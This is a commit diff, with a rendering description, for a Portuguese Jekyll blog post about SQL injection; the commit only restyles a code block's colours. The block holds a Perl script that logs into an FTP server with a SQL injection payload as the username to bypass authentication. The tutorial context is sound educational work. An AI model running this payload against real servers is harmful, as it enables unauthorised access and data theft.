

Before and after one commit to Kingm0b/jekyll-minimal-theme, a Jekyll site: the page built from _posts/2017-02-27-sql-injection.md, in a window 1280 px wide and 900 px high, scrolled down 4214 px, cut to the strip 102-900 px from the top of the window. Shown: the whole strip, without its empty margins (266-1202 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

```diff
--- a/_posts/2017-02-27-sql-injection.md
+++ b/_posts/2017-02-27-sql-injection.md
@@ -125,22 +125,21 @@
 
 É possível perceber a simplicidade da exploração da falha:
 
-<pre style="background:#000;color:#f8f8f8"><span style="color:#3e87e3">$host</span> = <span style="color:#3e87e3">$ARGV</span>[0]; <span style="color:#aeaeae;font-style:italic"># Variável $host recebe o endereço IP do servidor á ser atacado</span>
+<pre style="background:rgba(238,238,238,0.92);color:#000">$host = $ARGV[0]; <span style="color:#06f;font-style:italic"># Variável $host recebe o endereço IP do servidor á ser atacado</span>
 
-<span style="color:#aeaeae;font-style:italic"># Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'</span>
-<span style="color:#aeaeae;font-style:italic"># processo de autenticação no lado do servidor:</span>
-<span style="color:#3e87e3">$user</span> = <span style="color:#65b042">"USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --"</span>;
-<span style="color:#3e87e3">$pass</span> = <span style="color:#65b042">'1'</span>;
+<span style="color:#06f;font-style:italic"># Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'</span>
+<span style="color:#06f;font-style:italic"># processo de autenticação no lado do servidor:</span>
+$user = <span style="color:#093">"USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --"</span>;
+$pass = <span style="color:#093">'1'</span>;
 
-<span style="color:#aeaeae;font-style:italic"># Variável $ftp armazena descritor de conexão estabelecida com servidor FTP</span>
-<span style="color:#3e87e3">$ftp</span> = Net::FTP<span style="color:#e28964">-></span>new(<span style="color:#65b042">"<span style="color:#8a9a95">$host</span>"</span>, <span style="color:#3387cc">Debug </span>=> 0) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"[!] Cannot connect to <span style="color:#8a9a95">$host</span>"</span>;
+<span style="color:#06f;font-style:italic"># Variável $ftp armazena descritor de conexão estabelecida com servidor FTP</span>
+$ftp = Net::FTP<span style="color:#00f">-></span>new(<span style="color:#093">"$host"</span>, <span style="color:#6782d3">Debug </span>=> 0) <span style="color:#00f">or</span> <span style="color:#00f">die</span> <span style="color:#093">"[!] Cannot connect to $host"</span>;
 
-<span style="color:#aeaeae;font-style:italic"># O login malicioso é realizado, perceba que nome de usuário é simplesmente</span>
-<span style="color:#aeaeae;font-style:italic"># o conteúdo de $user</span>
-<span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>login(<span style="color:#65b042">"<span style="color:#8a9a95">$user</span>"</span>,<span style="color:#65b042">"<span style="color:#8a9a95">$pass</span>"</span>) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span><span style="color:#ddf2a4">\n</span>[!] Couldn't ByPass The authentication ! "</span>, <span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>message;
-<span style="color:#dad085">print</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span>[*] Connected To <span style="color:#8a9a95">$host</span>"</span>;
+<span style="color:#06f;font-style:italic"># O login malicioso é realizado, perceba que nome de usuário é simplesmente</span>
+<span style="color:#06f;font-style:italic"># o conteúdo de $user</span>
+$ftp<span style="color:#00f">-></span>login(<span style="color:#093">"$user"</span>,<span style="color:#093">"$pass"</span>) <span style="color:#00f">or</span> <span style="color:#00f">die</span> <span style="color:#093">"<span style="color:#6782d3">\n</span><span style="color:#6782d3">\n</span>[!] Couldn't ByPass The authentication ! "</span>, $ftp<span style="color:#00f">-></span>message;
+<span style="color:#33f;font-weight:700">print</span> <span style="color:#093">"<span style="color:#6782d3">\n</span>[*] Connected To $host"</span>;
 </pre>
-
 
 
 #### Usando o SQLMap
```
